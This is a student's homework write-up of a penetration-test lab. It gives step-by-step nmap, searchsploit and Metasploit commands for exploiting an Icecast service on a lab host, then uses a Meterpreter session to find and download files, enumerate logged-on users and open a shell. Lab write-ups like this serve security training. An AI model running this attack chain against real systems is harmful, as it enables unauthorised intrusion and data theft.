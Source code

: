 # Activity: Penetration Test Engagement/ Homework 17

Nicole Kemp

April 5th 20222

This is my step by step process to finding all exploits and the secret files, aswell as proof of concept via screenshots.


### Instructions

I've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.
![image](https://user-images.githubusercontent.com/91113466/161770835-3a08eb97-dc39-4b9e-aeef-ccd6305595db.png)
      > Answer: nmap -sV 192.168.0.20
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  ![image](https://user-images.githubusercontent.com/91113466/161771102-568347c1-de61-4ab8-8bfc-9545caed2f00.png)

     > Answer: searchsploit icecast
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:
![image](https://user-images.githubusercontent.com/91113466/161771161-f472393f-d160-4c37-8902-179c59340bc4.png)

     > Answer: msfconsole
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:
![image](https://user-images.githubusercontent.com/91113466/161771246-9be372c8-f3f1-45de-bbf7-04090066c55d.png)

     > Answer: search icecast

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOST 192.168.0.20
![image](https://user-images.githubusercontent.com/91113466/161771522-1b71ab13-c2d1-4278-aef3-677aadf2725a.png)

6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run

   - Run the command that performs a search for the `secretfile` textfile on the target.
![image](https://user-images.githubusercontent.com/91113466/161771624-dae887fe-eace-4f57-b859-540b10809111.png)

     > Answer: search -f *secretfile*.txt
7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe*.txt
 ![image](https://user-images.githubusercontent.com/91113466/161771713-33a1264c-8f55-4597-bead-e207cb2b6f07.png)

    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: download 'c:/Users/IEuser/Documents/Drinks.recipe.txt'
![image](https://user-images.githubusercontent.com/91113466/161771765-c1a89b8f-92f3-42fc-a0ec-cf0bf3970d38.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
![image](https://user-images.githubusercontent.com/91113466/161771830-85422fb7-1922-4bad-a6fb-b73cb7424345.png)


### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
  > 
![image](https://user-images.githubusercontent.com/91113466/161771905-2a2032be-1596-4a9b-a275-f8e9f3488665.png)

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell 
 
![image](https://user-images.githubusercontent.com/91113466/161771972-25fb7401-845f-4701-b2b7-2ff931b2d33f.png)

C. Run the command that displays the target's computer system information:

   > Answer: systeminfo

![image](https://user-images.githubusercontent.com/91113466/161772013-d4059380-d523-4285-8288-5f8b5c932850.png)
